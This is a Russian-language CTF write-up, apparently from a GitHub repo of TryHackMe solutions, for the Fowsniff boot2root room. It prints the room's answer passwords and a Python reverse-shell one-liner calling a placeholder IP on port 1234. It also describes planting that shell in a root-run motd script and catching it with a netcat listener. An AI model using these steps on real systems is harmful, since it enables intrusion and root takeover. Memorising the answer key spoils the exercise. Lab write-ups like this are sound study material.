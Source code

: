 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Fowsniff CTF](https://tryhackme.com/r/room/ctf) 

Всего 1 заданиe:
## Задание 1
Эта машина boot2root великолепна для новичков. Вам придется перечислить эту машину, найдя открытые порты, провести некоторые онлайн-исследования (удивительно, сколько информации может найти для вас Google), расшифровать хэши, перебрать вход в систему pop3 и многое другое!

Это будет структурировано, чтобы пройти через то, что вам нужно сделать, шаг за шагом. Убедитесь, что вы подключены к нашей сети

Спасибо berzerk0  за создание этой машины. Эта машина используется здесь с явного разрешения создателя <3 

### Ответьте на вопросы ниже
Разверните машину. В правом верхнем углу вы увидите кнопку «Развернуть» . Нажмите на нее, чтобы развернуть машину в облаке. Подождите минуту, пока она не станет активной.
```commandline
Ответ не нужен
```
Используя nmap, просканируйте эту машину. Какие порты открыты?
```commandline
Ответ не нужен
```
Используя информацию из открытых портов. Осмотритесь. Что вы можете найти?
```commandline
Ответ не нужен
```
Можете ли вы с помощью Google найти какую-либо публичную информацию о них?
```commandline
Ответ не нужен
```
Можете ли вы расшифровать эти md5 хеши? Вы даже можете использовать сайты типа hashkiller , чтобы расшифровать их.
```commandline
Ответ не нужен
```
Используя полученные вами имена пользователей и пароли, можете ли вы применить Metasploit для взлома пароля pop3?
```commandline
Ответ не нужен
```
Какой пароль у seina для доступа к почтовому сервису?


```commandline
scoobydoo2
```
Можете ли вы подключиться к службе pop3 с ее учетными данными? Какую информацию об электронной почте вы можете собрать?
```commandline
Ответ не нужен
```
Просматривая ее электронную почту, какой временный пароль был установлен для нее?


```commandline
S1ck3nBluff+secureshell
```
В электронном письме, кто его отправил? Используя пароль из предыдущего вопроса и имя пользователя отправителя, подключитесь к машине с помощью SSH.
```commandline
Ответ не нужен
```
После подключения, к каким группам принадлежит этот пользователь? Есть ли какие-нибудь интересные файлы, которые может запустить эта группа?
```commandline
Ответ не нужен
```
Теперь, когда вы нашли файл, который может редактировать группа, можете ли вы отредактировать его, включив в него обратную оболочку?

Обратная оболочка Python:

python3 -c 'импорт сокета, подпроцесса, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((<IP>,1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'

Другие обратные оболочки: здесь .
```commandline
Ответ не нужен
```
Если вы еще не узнали, этот файл запускается как root, когда пользователь подключается к машине с помощью SSH. Мы знаем это, поскольку при первом подключении мы видим, что нам выдается баннер (с fowsniff corp). Посмотрите в  файле /etc/update-motd.d/ . Если (после того, как мы поместили нашу обратную оболочку в файл cube) мы затем включим этот файл в файл motd.d, он запустится как root, и мы получим обратную оболочку как root!
```commandline
Ответ не нужен
```
Запустите прослушиватель netcat (nc -lvp 1234) и затем повторно войдите в службу SSH. Затем вы получите обратную оболочку в вашем сеансе netcat как root!
```commandline
Ответ не нужен
```
Если вы действительно застряли, вот блестящее пошаговое руководство:  https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

Если вам так проще, следуйте этому пошаговому руководству, разместив машину на объекте.
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)